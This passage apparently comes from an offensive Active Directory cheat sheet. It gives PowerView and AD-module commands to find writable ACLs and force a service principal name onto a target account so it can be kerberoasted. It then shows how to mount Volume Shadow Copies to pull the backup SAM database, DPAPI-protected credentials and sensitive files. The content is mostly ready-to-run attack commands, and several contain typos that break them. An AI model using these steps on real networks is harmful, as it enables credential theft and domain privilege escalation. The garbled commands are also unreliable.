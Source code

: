 * PowerView:

Check for interesting permissions on accounts:

```text
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentinyReferenceName -match "RDPUsers"}
```

Check if the current user has already an SPN set:

```text
Get-DomainUser -Identity <UserName> | select serviceprincipalname
```

Force set the SPN on the account:

```text
Set-DomainObject <UserName> -Set @{serviceprincipalname='ops/whatever1'}
```

AD Module:

Check if the current user has already an SPN setted

```text
Get-ADUser -Identity <UserName> -Properties ServicePrincipalName | select ServicePrincipalName
```

Force set the SPN on the account:

```text
Set-ADUser -Identiny <UserName> -ServicePrincipalNames @{Add='ops/whatever1'}
```

Finally use any tool from before to grab the hash and kerberoast it!

### Abusing Shadow Copies

If you have local administrator access on a machine try to list shadow copies, it's an easy way for Domain Escalation.

List shadow copies using vssadmin \(Needs Admnistrator Access\)

```text
vssadmin list shadows
```

List shadow copies using diskshadow

```text
diskshadow list shadows all
```

Make a symlink to the shadow copy and access it

```text
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```

1\) You can dump the backup SAM database and harvest credentials.

2\) Look for DPAPI stored creds and decrypt them. 

3\) Access backup sensitive files.
